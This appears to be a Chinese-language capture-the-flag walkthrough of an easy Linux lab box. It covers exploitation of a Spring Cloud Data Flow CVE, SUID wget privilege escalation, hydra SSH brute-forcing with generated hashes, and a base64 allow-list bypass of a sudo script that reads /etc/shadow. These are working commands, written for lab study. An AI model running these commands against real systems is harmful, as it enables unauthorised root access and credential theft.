








## Box Info

| OS | Linux |
| --- | --- |
| Difficult | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.55.13 -sV -A -p-

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 ac:78:16:74:49:a1:68:9d:54:84:8a:59:e9:38:10:bc (RSA)
|   256 06:0c:4d:9d:2c:32:43:d2:3d:f7:4f:82:c8:15:85:60 (ECDSA)
|_  256 3b:cd:fc:1f:dd:48:0f:ee:17:78:9a:f1:09:cb:8c:ec (ED25519)
7577/tcp open  http    Apache Tomcat (language: en)
| http-title: Site doesn't have a title (application/hal+json).
|_Requested resource was http://192.168.55.13:7577/api
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
9393/tcp open  http    Apache Tomcat (language: en)
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-title: Site doesn't have a title (application/hal+json).
```

## CVE-2024-37084

进入到**9393**端口的**dashboard**


经过搜索得知：[Ly4j/CVE-2024-37084-Exp: Spring Cloud Data Flow CVE-2024-37084 exp](https://github.com/Ly4j/CVE-2024-37084-Exp)

这里我使用的**kali**的**java**版本可能不对，生成的**jar**包无法完成反弹**shell**

于是**jar**包的制作我是在**windows**上进行的

需要注意的是，执行一次**poc**，就要给修改一次**jar**包的名称









## Docker break

当前环境是在**docker**里的，查找有**SUID**的文件

```
cnb@921567b128b2:/workspace$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/local/bin/wget
```

可以利用**wget**进行提权：[wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/)

```
cnb@921567b128b2:/workspace$ TF=$(mktemp)
TF=$(mktemp)
cnb@921567b128b2:/workspace$ chmod +x $TF
chmod +x $TF
cnb@921567b128b2:/workspace$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
cnb@921567b128b2:/workspace$ /usr/local/bin/wget  --use-askpass=$TF 0                          
/usr/local/bin/wget  --use-askpass=$TF 0
whoami
root
id
uid=1000(cnb) gid=1000(cnb) euid=0(root) egid=0(root) groups=0(root),1000(cnb)
```

先查看一下留言

```
cat /home/cnb/note
Hi mathlake
Long time no see, 256 is my favorite number. I know you are very interested in mathematics, but I have been struggling with a math problem recently. The method used is time series decomposition. I have sent you the data, and you can provide me with the mathematical expressions for T, S, and C (rounded to the nearest integer) corresponding to the month.
June 2025

好久不见了，256是我最喜欢的号码。我知道你对数学很感兴趣，但最近我一直在努力解决一个数学问题。使用的方法是时间序列分解。我已经向您发送了数据，您可以为我提供与月份相对应的T、S和C（舍入到最接近的整数）的数学表达式。
2025年6月
```

进入到邮箱里拿到三个文件

```
cd /var/mail/mathlake
ls -al
total 28
drwx--S---. 2 root mail    55 Mar 12 01:47 .
drwxrwsr-x. 1 root mail    22 Mar 12 01:41 ..
-rw-r--r--. 1 root mail 10299 Mar  7 08:14 data.xlsx
-rw-r--r--. 1 root mail  3906 Mar 11 23:56 test.png
-rw-r--r--. 1 root mail  8815 Mar 11 23:58 true.png
```

可以转**base64**然后到本地又转回去，这样的方式来传递

```
cat data.xlsx | base64
```

可以看到三个数字的大小范围





因此可以写一个脚本来进行爆破

```
#!/bin/bash

output_file="sha256_results.txt"

for i in {40..60}; do
  for j in {0..2}; do
    for k in {0..2}; do
      echo  "${i}*${j}*${k}" | sha256sum >> "$output_file"
    done
  done
done
```

然后用**awk**取出第一列

```
[root@kali] /home/kali/mathdop  
❯ awk '{print $1}' sha256_results.txt > passwords
```

由于**/var/mail**中的用户名是**mathlake**，可以尝试用这个来进行爆破

```
[root@kali] /home/kali/mathdop  
❯ hydra -l mathlake -P passwords ssh://192.168.55.13 -I            
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 09:52:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 189 login tries (l:1/p:189), ~12 tries per task
[DATA] attacking ssh://192.168.55.13:22/
[22][ssh] host: 192.168.55.13   login: mathlake   password: 9bd29d2c90998b5af05b3fdf10d9ab4c9eff53f2a827fbc39247200874ab6ca3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```

## Root

```
[mathlake@mathdop ~]$ sudo -l
Matching Defaults entries for mathlake on mathdop:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User mathlake may run the following commands on mathdop:
    (ALL) NOPASSWD: /opt/secure_input_handler.sh
[mathlake@mathdop ~]$ cat /opt/secure_input_handler.sh 
#!/bin/bash
export PATH="/usr/bin"

read -p "Input Command: " user_input

decoded_input=$(echo -n "$user_input" | base64 -d 2>/dev/null | tr -d '\r\0\a' | col -b)
if [[ ${#user_input} -gt 128 || -z "$decoded_input" ]]; then
    echo "[!] Decoding failed or input is too long" >&2
    exit 2
fi

filtered_input=$(echo "$decoded_input" | tr -cd 'a-zA-Z0-9\-_/ :.' | sed -e 's/[[:space:]]\+/ /g' -e 's/^[ \t]*//' -e 's/[ \t]*$//')

IFS=' ' read -ra cmd_args <<< "$filtered_input"
command="${cmd_args[0]}"
command_clean=$(echo "$command" | tr -d -c 'a-zA-Z0-9')

allowed_commands=("date" "pwd" "echo")
if ! printf "%s\n" "${allowed_commands[@]}" | grep -qxF "$command_clean"; then
    echo "[!] Illegal instruction: $command_clean" >&2
    exit 3
fi

/usr/bin/timeout 2 /usr/bin/bash -c "${filtered_input}"
```

这里并不能执行命令，查看一下**/etc/shadow**

```
date -f /etc/shadow

ZGF0ZSAtZiAvZXRjL3NoYWRvdw==
```

这个就是**root**的密码





有点脑洞哈~

## Summary

`User`：**Spring**框架漏洞，**docker**逃逸，拿到邮箱里的东西，可以尝试爆破密码，登录到**mathdop**

`Root`：读取**/etc/shadow**里面的密码
